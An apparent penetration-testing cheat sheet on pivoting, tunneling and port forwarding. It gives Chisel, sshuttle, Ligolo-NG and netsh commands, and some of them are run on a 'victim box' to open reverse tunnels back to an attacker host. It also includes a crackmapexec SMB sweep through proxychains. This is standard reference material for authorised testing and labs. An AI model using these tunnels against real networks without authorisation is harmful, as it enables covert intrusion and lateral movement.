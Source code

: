 
### Wraith
 
https://github.com/slaeryan/AQUARMOURY/tree/master/Wraith



# Pivoting, Tunneling, and Port Forwarding

## Chisel
```bash
# Spin up server
chisel server -p 8000 --reverse

# Upload to remote machine and set up connections
.\chisel client attackerIP:port R:socks

# do things
proxychains cme smb <subnet> 
```

## Sshuttle
```bash
sudo sshuttle -r user@ipaddress --ssh-cmd "ssh -i id_rsa" -H 
sudo sshuttle -r user@ipaddress --ssh-cmd "ssh -i id_rsa" <subnet ie: 192.168.69.0/24> 
```

## Ligolo-NG
```bash
# Setup Proxy (Attacker Box)
sudo ./proxy -selfcert -laddr 0.0.0.0:53

# Connect to Proxy (Victim Box)
agent -connect kali-ip:53 -ignore-cert
agent.exe -connect kali-ip:53 -ignore-

# Enable Session on Proxy
session
(select session)
start
sudo ip route add <subnet-here> dev ligolo
```

## Port Forwarding on Windows
```CMD=
# RULE
netsh interface portproxy add v4tov4 listenaddress=0.0.0.0 listenport=8080 connectaddress=10.10.10.10 connectport=8080

# CHECK
netsh interface portproxy show all

# RESET
netsh interface portproxy reset
```
